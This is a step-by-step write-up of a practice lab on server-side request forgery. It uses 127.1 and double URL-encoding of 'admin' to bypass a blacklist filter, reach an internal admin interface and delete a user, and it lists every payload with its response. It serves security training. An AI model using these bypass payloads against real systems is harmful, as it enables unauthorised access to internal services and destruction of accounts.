 # SSRF with blacklist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

Note when you
ping 127.0.0.1 and localhost and 127.1 all are same

![screenshot](images/lab3_ping_local_host.jpg)

---

### step 1

go to stock check feature which fetches data from an internal system and intercept
send to repeater

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send request respose =>200 ok

stockApi=http%3A%2F%2F127.0.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send reuest response => 400 bad request => "External stock check blocked for security reasons"

remove _%3A8080_
stockApi=http%3A%2F%2F127.1%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3
send request resposne => 404 Not found

remove _product%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1_
stockApi=http%3A%2F%2F127.1%2Fadmin
send request response => 400 bad request => "External stock check blocked for security reasons"

### step2

use extenstion burpsuite _hackvertor_
highlight _admin_ send to extenstion _hackvertor_ => _encode_ => _urlencode_all_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>admin<@/urlencode_all>

now again _<@urlencode_all>admin<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_<@urlencode_all>admin<@/urlencode_all>_ => _%61%64%6D%69%6E_
stockApi=http%3A%2F%2F127.1%2F%61%64%6D%69%6E

again _%61%64%6D%69%6E_ _hackvertor_ => _encode_ => _urlencode_all_
_%61%64%6D%69%6E_ => _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>

now again _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_ => _%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_
stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45
send request response => 200 ok

stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45/delete?username=carlos
send request response => 302 found

lab solved :)
